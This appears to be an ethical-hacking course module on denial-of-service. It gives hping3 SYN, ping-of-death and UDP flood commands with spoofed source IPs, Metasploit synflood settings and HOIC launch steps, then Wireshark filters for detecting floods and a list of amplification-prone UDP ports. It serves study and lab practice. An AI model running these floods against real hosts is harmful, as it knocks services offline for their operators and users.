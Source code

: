 # 10 - DoS

## Module 10 - Denial-of-Service

<details>

<summary>EMPTY</summary>



</details>

####

## **SYN Flooding**

**SYN flooding** is a type of cyberattack that targets a server by overwhelming it with a flood of fake or incomplete connection requests (SYN packets). These requests are part of the 3-way handshake process used to establish a connection between a client and a server. In a SYN flood attack, the attacker sends a large number of SYN packets without completing the handshake, tying up the server's resources and preventing it from servicing legitimate connections.

This can lead to a denial of service (DoS) or distributed denial of service (DDoS) attack, causing the server to become unresponsive. Mitigation strategies include rate limiting, SYN cookies, and deploying intrusion detection and prevention systems.

### **Perform a SYN Flooding on a Target Host using hping3**

**Target:**

* Wireshark-\&gt;Ethernet

#### **Attacker**

* **hping3 -S \<Target IP> -a \<Spoofable IP> -p \<Port to flood> -flood**
  * **-S: Set the SYN flag**
  * **-a: Spoof the IP address**
  * **-p: Specify the destination port, e.g 22**
  * **--flood: Send a huge number of packets**

#### **Target**

* Check wireshark

#### **Attacker (Perform PoD)**

* **hping3 -d 65538 -S -p 21 –flood \<Target IP>**
  * **-d: Specify data size**
  * **-S: Set the SYN flag**

#### **Attacker (Perform UDP application layer flood attack)**

* nmap -p 139 10.10.10.19 (check service)
* **hping3 -2 -p 139 –flood \<Target IP>**
  * **-2: Specify UDP mode**

### **SYN Flooding using Metasploit**

```bash
nmap -p 21 10.10.10.10 #check open ports or specific port

msfconsole -q #start msfconsole
use auxiliary/dos/tcp/synflood #SYN Flooding module
set RHOST <Target IP>
set RPORT 21
set SHOST <Spoofed IP Address> #Our fake IP 
set TIMEOUT 20000 and press Enter

#open Wireshark and View Flood attack on victim via Wireshark, use filter:
tcp.port=21
```

## HTTP Flooding Attack

**HTTP flood attack**, is a type of cyberattack aimed at overwhelming a web server by sending a massive volume of HTTP requests. These requests often mimic legitimate user interactions with a website, such as GET or POST requests for web pages or resources. The intent is to consume the server's resources, exhaust its processing capacity, and cause it to become slow or unresponsive, resulting in a denial of service (DoS) situation.

Attackers may employ botnets or distributed networks of compromised devices to intensify the attack. Defenses against HTTP flooding include rate limiting, traffic analysis, and content delivery networks (CDNs) to absorb excess traffic and protect the target server.

### HTTP Flooding Attack using HOIC (High Orbit Ion Cannon)

* Open HOIC.
* Set threads = 20
* Click + to add target
* Enter Target http://\<Target IP> -> Power = High -> Booster = GenericBoost.hoic
* Click **FIRE TEH LAZER!** to launch attack

## Detecting DoS Attack traffic <a href="#user-content-detecting-dos-attack-traffic" id="user-content-detecting-dos-attack-traffic"></a>

KFSensor Free Trial: [http://www.keyfocus.net/kfsensor/](http://www.keyfocus.net/kfsensor/)\
Wireshark: [https://www.wireshark.org/](https://www.wireshark.org/)

To find DOS (SYN and ACK) :&#x20;

`tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0`

To find passwords :&#x20;

`http.request.method == POST`

To find DOS -> Look for Red and Black packets with around 1-2 simple packets in between and then pick any packet and check the Source and Destination IP with port if need.

To find Wireshark DOS attack:

* statistic -> IPv4 statistic -> source and destination address

Or

* View Flood attack on victim via Wireshark | use filter tcp.port=21

#### Another method

Find the dos attacker ip using Wireshark

Statistic -> conversion

identified ip , which has flooding server with SYN request.

Or&#x20;

get the statistics of ipv4&#x20;

{% embed url="https://github.com/Samsar4/Ethical-Hacking-Labs/blob/master/9-Denial-of-Service/3-Detecting-DoS-Traffic.md" %}

{% content-ref url="../wireshark-or-tcpdump.md" %}
[wireshark-or-tcpdump.md](../wireshark-or-tcpdump.md)
{% endcontent-ref %}

#### **Other UDP-based applications and their ports**

* CharGen UDP Port 19
* SNMPv2 UDP Port 161
* QOTD UDP Port 17
* RPC UDP Port 135
* SSDP UDP Port 1900
* CLDAP UDP Port 389
* TFTP UDP Port 69
* NetBIOS UDP Port 137,138,139
* NTP UDP Port 123
* Quake Network Protocol UDP Port 26000
* VoIP UDP Port 5060
